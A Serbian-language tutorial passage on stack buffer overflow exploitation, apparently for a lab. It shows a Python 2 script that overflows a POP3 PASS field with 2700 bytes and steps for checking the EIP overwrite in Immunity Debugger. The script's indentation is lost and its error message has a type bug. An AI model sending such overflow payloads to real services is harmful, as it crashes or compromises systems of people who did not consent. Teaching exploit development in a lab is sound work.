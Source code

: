 ```python
#!/usr/bin/python

import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
ip = '10.11.25.153'
port = 110

buffer = 'A' * 2700
try:
print "\nLaunching exploit..."
s.connect((ip, port))
data = s.recv(1024)
s.send('USER username' +'\r\n')
data = s.recv(1024)
s.send('PASS ' + buffer + '\r\n')
print "\nFinished!."
except:
print "Could not connect to "+ip+":"+port
```

## **Promena fonta u Immunity Debugger-u**

Idite na `Options >> Appearance >> Fonts >> Change(Consolas, Blod, 9) >> OK`

## **Povezivanje procesa sa Immunity Debugger-om:**

**File --> Attach**

![](<../.gitbook/assets/image (24) (1) (1).png>)

**I pritisnite dugme START**

## **Slanje exploit-a i provera da li je EIP pogođen:**

![](<../.gitbook/assets/image (25) (1) (1).png>)

Svaki put kada prekinete servis, trebali biste ga ponovo pokrenuti, kako je naznačeno na početku ove stranice.

## Kreiranje obrasca za modifikaciju EIP-a

Obrazac treba biti veličine bafera koji ste prethodno koristili za prekid servisa.

